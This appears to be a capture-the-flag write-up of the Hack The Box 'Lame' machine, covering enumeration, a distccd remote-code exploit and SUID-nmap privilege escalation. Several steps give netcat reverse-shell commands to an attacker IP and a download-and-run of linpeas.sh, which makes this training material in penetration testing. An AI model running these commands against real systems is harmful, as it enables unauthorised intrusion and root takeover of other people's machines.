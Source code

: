 # Lame - 10.10.10.3
### Don't forget to check out the Lame.pdf file. To see it in color :)

![Lame_Card](https://user-images.githubusercontent.com/110210595/186282161-b8b4ae39-f2d6-4317-a040-4e61378ac8aa.png)

Started off with a nmap scan `nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3`<br>
While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done.
We get back some nice info to start us off.
Port 80 isn't open so there was no site for me to check.<br>
But there was other ports open such as port 21 with the version number of <em><strong>vsftpd 2.3.4</em></strong> (This version of vsftpd is vulnerable to backdoor command executionCVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck.<br>
again then go back and try to repeat your steps to make sure you didn't make a typo somewhere.

![image](https://user-images.githubusercontent.com/110210595/185813986-3fe1ff10-9b0e-46e6-873a-29d79fd5341e.png)

![image](https://user-images.githubusercontent.com/110210595/185813993-63e2b007-2ec3-4ea1-953e-a9c2db6975a5.png)

I see that smb is open. 139/445. I run `smbmap -H 10.10.10` and get back some users.

![image](https://user-images.githubusercontent.com/110210595/185814007-319d68bc-004b-4242-b3e0-a943b4eda8e9.png)

we can see that tmp is <em><strong>READ, WRITE</em></strong>. Lets login and see what we can find.<br>
I use `smbclient \\\\10.10.10.3\\tmp` and we get a hit.<br>
I use `ls` to see what we can find. Unfortunately there is nothing here either.<br>
We could use put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking.

![image](https://user-images.githubusercontent.com/110210595/185814036-42698e61-b4e6-4be4-84de-df540f801f33.png)

I go back to the nmap results and see port 3632 is open and it gave us the version of application running. <em><strong>distccd v1</em></strong><br>
I go to google and search for "<em><strong>distccd v1 exploit</em></strong>" first link brings us to https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855<br>
after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is <em><strong>command, host, port</em></strong><br>
If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.

Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did  `chmod +x CVE-2004-2687.py`<br>
the file is ready to be used. First I started a listener on my attacking machine with `nc -lvnp 9001` and then used the following command<br>
`./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` No good, got errors.<br>
Then I tried. `python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` I got a connected to remote service Ok but then the
socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.
So I was going to work my way down from python3 to python.<br>
Next up,  `python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` Success, we get a shell!

![image](https://user-images.githubusercontent.com/110210595/185814122-93aa8ce3-0128-4f21-a19b-8d04b5580a30.png)

![image](https://user-images.githubusercontent.com/110210595/185814162-05876fb9-000c-4612-bcfc-bd4d8fc70e88.png)

Let's upgrade the shell. I used the following.<br>
`python -c 'import pty; pty.spawn("/bin/bash")'` python3 and python2 didn't work.<br>
`export TERM=xterm `<br>
`stty raw -echo && fg`<br>
`enter`<br>
`enter`<br>

We're a normal user daemon. I started off with `sudo -l` but it asked for a password. Let's move on.
I look around a bit and `cd /home` directory and do a `ls` and see what's there. Nothing good in the user directory but I did go into makis and find the <em><strong>user.txt</em></strong> file. I use <em><strong>cat user.txt</em></strong> at it and we get out our first flag.  

![image](https://user-images.githubusercontent.com/110210595/185814188-b2d3ad0a-a11d-4f7e-a4bc-49c2566b5fa1.png)

![image](https://user-images.githubusercontent.com/110210595/185814191-f868ba55-884e-4c9e-ba39-267b4ee7455c.png)

Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh<br>
I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine.<br>
I use `python3 -m http.server 80` to get the server up and running.<br>
On the victim machine ill be in the <em><strong>/tmp</em></strong> directory and use 'wget://10.10.14.10/linpeas.sh' which is my attacking machines ip from HackTheBox. 
The file gets transferred over no problem. I use `chmod +x linpeas.sh` making it an executable file.<br>
I use `./linpeas.sh` and it runs no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.

![image](https://user-images.githubusercontent.com/110210595/185814232-c92b51cf-c297-46b9-ad1f-ed45077f1d5d.png)

![image](https://user-images.githubusercontent.com/110210595/185814233-174d7a35-f050-4533-acd5-6fc6f51f48a7.png)

![image](https://user-images.githubusercontent.com/110210595/185814242-ca1ef7ad-efb5-47bd-8b56-bedfb902f6c7.png)

<em><strong>/usr/bin/nmap suid</em></strong><br>
I head over to https://gtfobins.github.io/ and search for <em><strong>nmap</em></strong><br>
I 'cd /usr/bin' where the suid is located.<br>
I start off with shell code (a) and nothing happened. So I keep going down the list.<br>
Shell (b) worked!

![image](https://user-images.githubusercontent.com/110210595/185814276-6c882b38-ce84-4183-a828-49b30153bc7a.png)

we can now 'cd /root' and see what is there which is the <em><strong>root.txt</em></strong>flag!<br>
we have successfully rooted this box!

![image](https://user-images.githubusercontent.com/110210595/185814294-98c871d4-6e47-46cd-b258-79796039924c.png)

![image](https://user-images.githubusercontent.com/110210595/185814307-20443976-cd82-46bb-8929-1e17fb164988.png)
